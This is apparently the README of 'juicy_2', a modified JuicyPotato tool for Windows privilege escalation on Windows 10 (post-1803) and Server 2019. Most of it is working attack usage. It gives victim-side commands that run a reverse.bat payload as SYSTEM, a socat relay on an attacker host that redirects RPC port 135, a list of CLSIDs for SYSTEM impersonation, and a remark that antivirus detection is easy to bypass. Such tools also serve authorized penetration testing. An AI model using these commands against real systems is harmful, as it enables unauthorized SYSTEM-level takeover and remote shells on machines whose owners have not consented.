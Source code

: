 # juicy_2
JuicyPotato for Win10 > 1803 &amp; Win Server 2019<br>
Please read my blog post first: https://decoder.cloud/2020/05/30/the-impersonation-game/ <br>
<hr>
<b>Disclaimer:</b><br>
This is just a quick & dirty modification of our JuicyPotato in order to test valid CLSID's and to impersonate them (YOU NEED IMPERSONATION PRIVILEGES) for newer Windows 10 and Windows Server 2019 platforms.<br>
(I know, this version is catched by Defender and other AV's, but with some modifications in code it's easy to bypass)
<hr>
Mandatory requisite is to have the possibility to redirect traffic for port 135 on a forwarder machine under you control.<br>
Feel free to improve the code, I was too lazy for this kind of stuff. <br>
<hr>
<i><b>For testing CLSID:</i></b><br>
juicy_2 -z -x [ip] of socat listener  -l [fake oxid resolver port] -n [local RPC server port] -c [CLSID to test]<br>
Example:<br>
  on victim:<br>
  juicy_2 -z -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8}<br>
  on attacker (192.168.1.1): <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:<victim machine>:9995 
<br>
  <i><b>For exploitation:</i></b><br>
  on victim:<br>
  juicy_2 -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8} -t * -p c:\temp\reverse.bat<br>
  on attacker (192.168.1.1): <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:<victim machine>:9995<br>
<hr>  
If you want to impersonate SYSTEM use these CLSID's:<br>
{C41B1461-3F8C-4666-B512-6DF24DE566D1}<br>
{90F18417-F0F1-484E-9D3C-59DCEEE5DBD8}<br>
  
